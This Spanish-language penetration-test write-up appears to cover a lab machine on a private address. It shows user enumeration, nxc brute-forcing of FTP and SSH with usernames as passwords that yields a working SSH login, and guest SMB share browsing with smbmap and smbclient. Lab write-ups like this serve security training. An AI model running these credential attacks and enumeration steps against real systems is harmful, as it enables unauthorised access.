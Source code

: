 ```python
S-1-22-1-1025 Unix User\kai (Local User)
S-1-22-1-1026 Unix User\zoe (Local User)
S-1-22-1-1027 Unix User\NATHAN (Local User)
S-1-22-1-1028 Unix User\www (Local User)
S-1-22-1-1029 Unix User\elly (Local User)
```
## Engaño
A partir de aquí se comenzó con diferentes vectores de ataque que involucran a dos escenarios de riesgo: Fuerza bruta a los servicios y un reconocimiento SMB que encaminó a un reconocimiento web.

### Fuerza bruta a servicios
Dentro de las pruebas, se reconoció el uso de nombre de uusario como contraseña, en FTP y SSH. (En ftp, no se encontró información imprescindible para la explotación).
```python
$nxc ftp 192.168.0.72 -u users.txt -p users.txt --ignore-pw-decoding
FTP         192.168.0.72    21     192.168.0.72     [+] SHayslett:SHayslett

$nxc ssh 192.168.0.72 -u users.txt -p users.txt --ignore-pw-decoding
SSH         192.168.0.72    22     192.168.0.72     [+] SHayslett:SHayslett  Linux - Shell access!
```
### Reconocimiento de servicios
Se comenzó con el reconocimiento a recursos compartidos en puerto 139. Véase [[Samba Pentest]]
```python
$smbmap -H 192.168.0.72 -P 139 -u 'guest' -p ''
[+] Guest session   	IP: 192.168.0.72:139	Name: 192.168.0.72                                      
    Disk                    Permissions	Comment
	----                    -----------	-------
	print$                  NO ACCESS	Printer Drivers
	kathy                   READ ONLY	Fred, What are we doing here?
	tmp                    	READ, WRITE	All temporary files should be stored here
	IPC$                    NO ACCESS	IPC Service (red server (Samba, Ubuntu))
```
Se revisa el directorio `/kathy`
```python
$smbmap -H 192.168.0.72 -P 139 -u 'guest' -p '' -r kathy
[+] Guest session   	IP: 192.168.0.72:139	Name: 192.168.0.72                                      
    Disk                    Permissions	Comment
	----                    -----------	-------
	kathy                   READ ONLY	
	.\kathy\*
	dr--r--r--                0 Fri Jun  3 11:52:52 2016	.
	dr--r--r--                0 Mon Jun  6 16:39:56 2016	..
	dr--r--r--                0 Sun Jun  5 10:02:27 2016	kathy_stuff
	dr--r--r--                0 Sun Jun  5 10:04:14 2016	backup

```

Se leyó el directorio visulaizado:
```python
$smbclient -U 'guest' //192.168.0.72/kathy
[...]
smb: \> ls
  .                                   D        0  Fri Jun  3 11:52:52 2016
  ..                                  D        0  Mon Jun  6 16:39:56 2016
  kathy_stuff                         D        0  Sun Jun  5 10:02:27 2016
  backup                              D        0  Sun Jun  5 10:04:14 2016
[...]
smb: \> cd kathy_stuff\
smb: \kathy_stuff\> ls
  .                                   D        0  Sun Jun  5 10:02:27 2016
  ..                                  D        0  Fri Jun  3 11:52:52 2016
```